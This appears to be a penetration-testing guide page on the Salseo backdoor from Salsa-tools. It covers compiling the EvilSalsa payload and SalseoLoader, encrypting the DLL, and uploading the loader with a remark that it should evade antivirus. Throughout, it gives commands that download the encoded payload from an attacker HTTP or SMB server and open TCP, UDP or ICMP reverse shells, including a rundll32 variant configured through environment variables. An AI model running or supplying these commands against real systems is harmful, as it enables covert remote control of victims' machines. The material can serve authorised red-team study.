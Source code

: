 ```yaml
---
description: 'https://github.com/Hackplayers/Salsa-tools'
---
```


# Salseo

## Compiling the binaries

Download the source code from the github and compile **EvilSalsa** and **SalseoLoader**. You will need **Visual Studio** installed to compile the code.

Compile those projects for the architecture of the windows box where your are going to use them\(If the Windows supports x64 compile them for that architectures\).

You can **select the architecture** inside Visual Studio in the **left "Build" Tab** in **"Platform Target".**

**\(**If you can't find this options press in **"Project Tab"** and then in **"&lt;Project Name&gt; Properties"**\)

![](../.gitbook/assets/image%20%28154%29.png)

Then, build both projects \(Build -&gt; Build Solution\) \(Inside the logs will appear the path of the executable\):

![](../.gitbook/assets/image%20%28233%29.png)

## Prepare the Backdoor

First of all, you will need to encode the **EvilSalsa.dll.** To do so, you can use the python script **encrypterassembly.py** or you can compile the project **EncrypterAssembly**

### **Python**

```text
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```

### Windows

```text
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```

Ok, now you have everything you need to execute all the Salseo thing: the **encoded EvilDalsa.dll** and the **binary of SalseoLoader.**

**Upload the SalseoLoader.exe binary to the machine. They shouldn't be detected by any AV...**

## **Execute the backdoor**

### **Getting a TCP reverse shell \(downloading encoded dll through HTTP\)**

Remember to start a nc as the reverse shell listener, and a HTTP server to serve the encoded evilsalsa.

```text
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```

### **Getting a UDP reverse shell \(downloading encoded dll through SMB\)**

Remember to start a nc as the reverse shell listener, and a SMB server to serve the encoded evilsalsa \(impacket-smbserver\).

```text
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```

### **Getting a ICMP reverse shell \(encoded dll already inside the victim\)**

**This time you need a special tool in the client to receive the reverse shell. Download:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)\*\*\*\*

#### **Disable ICMP Replies:**

```text
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

#### Execute the client:

```text
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```

#### Inside the victim, lets execute the salseo thing:

```text
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```

## Compiling SalseoLoader as DLL exporting main function

Open the SalseoLoader project using Visual Studio.

### Add before the main function: \[DllExport\]

![](../.gitbook/assets/image%20%2888%29.png)

### Install DllExport for this project

#### **Tools** --&gt; **NuGet Package Manager** --&gt; **Manage NuGet Packages for Solution...**

![](../.gitbook/assets/image%20%2855%29.png)

#### **Search for DllExport package \(using Browse tab\), and press Install \(and accept the popup\)**

![](../.gitbook/assets/image%20%28240%29.png)

In your project folder have appeared the files: **DllExport.bat** and **DllExport\_Configure.bat**

### **U**ninstall DllExport

Press **Uninstall** \(yeah, its weird but trust me, it is necessary\)

![](../.gitbook/assets/image%20%28104%29.png)

### **Exit Visual Studio and execute DllExport\_configure**

Just **exit** Visual Studio

Then, go to your **SalseoLoader folder** and **execute DllExport\_Configure.bat**

Select **x64** \(if you are going to use it inside a x64 box, that was my case\), select **System.Runtime.InteropServices** \(inside **Namespace for DllExport**\) and press **Apply**

![](../.gitbook/assets/image%20%28236%29.png)

### **Open the project again with visual Studio**

**\[DllExport\]** should not be longer marked as error

![](../.gitbook/assets/image%20%28249%29.png)

### Build the solution

Select **Output Type = Class Library** \(Project --&gt; SalseoLoader Properties --&gt; Application --&gt; Output type = Class Library\)

![](../.gitbook/assets/image%20%28226%29.png)

Select **x64** **platform** \(Project --&gt; SalseoLoader Properties --&gt; Build --&gt; Platform target = x64\)

![](../.gitbook/assets/image%20%28137%29.png)

To **build** the solution: Build --&gt; Build Solution \(Inside the Output console the path of the new DLL will appear\)

### Test the generated Dll

Copy and paste the Dll where you want to test it.

Execute:

```text
rundll32.exe SalseoLoader.dll,main
```

If not error appears, probably you have a functional dll!!

## Get a shell using the Dll

Don't forget to use a **HTTP** **server** and set a **nc** **listener**

### Powershell

```text
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

### CMD

```text
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```

